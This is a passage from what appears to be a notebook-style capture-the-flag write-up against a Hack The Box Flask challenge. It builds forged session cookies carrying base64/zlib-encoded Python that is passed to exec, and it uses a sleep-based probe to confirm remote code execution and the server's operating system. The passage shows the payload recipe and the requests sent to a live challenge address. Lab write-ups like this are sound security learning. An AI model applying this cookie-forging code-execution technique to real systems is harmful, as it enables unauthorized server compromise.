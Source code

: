 
```python
get_response_from_the_app_using_cookie(url,evil_cookie)
```




    <html><body><p>render_template('index.html')</p></body></html>



The local app sleeps.


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820



```python
get_response_from_the_app_using_cookie(url,evil_cookie)
```




    <!DOCTYPE html>\n<html><head>\n<meta content="width=device-width, initial-scale=1" name="viewport"/>\n<meta content="makelaris" name="author"/>\n<title>\U0001f30c on Venzenulon 9</title>\n<link crossorigin="anonymous" href="//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" rel="stylesheet"/>\n<link href="//fonts.googleapis.com/css?family=Comfortaa" rel="stylesheet" type="text/css"/>\n<style>html, body {background-image: url('//s-media-cache-ak0.pinimg.com/736x/7b/fe/d2/7bfed2ffe038beb673efd872cd44ba2c.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>\n</head>\n<body>\n<img class="mx-auto d-block img-responsive" src="//media3.giphy.com/media/eO8zgwAt3MVW/giphy.gif"/>\n</body>\n<!-- /debug -->\n</html>



We are instantly blocked by the HTB application. The response is returned too soon.

But does this mean that we are not able to execut bash commands?

We try to use an other strategy.

The `os.system` commands returns the status code upon execution. In Unix machines such code is 0 if the execution is successfull.

Now we make sure that the system is running a Linux distro.

We use a simple strategy to achieve this. With the relevant Python code we get the name of the family of OS and make the app sleep if the result is `Linux`. In this way we know that if the app sleeps(using Python `os` library) the OS is indeed a Linux one.


```python
pl_check_linux = """import time, platform as p
if p.system()=='Linux': time.sleep(10)"""
```

We build the cookie and send it to the HTB app.


```python
evil_cookie = from_payload_to_cookie_for_flask(make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_check_linux)),secret_key,debug_recipe=True)
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjU0KwyAQhfc9xZCNCkXSbSA36A1CEGMnMKBGMgoppXfvJKvuHu/ne3hg0F3XUSrbXqFSwjuU6Ou67Qk8Q7nRCsXymysmbcZRPSm3Qw1X13JELPrRG2HcP8q5pVGslNk5NUwBBAMBKIM21rkQPUsiavGMl+C2XC6Krw3ImQq+qnMSJM4+SQ/mqZ9PQtpeLaL9v/maHxSFQdo="'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 286
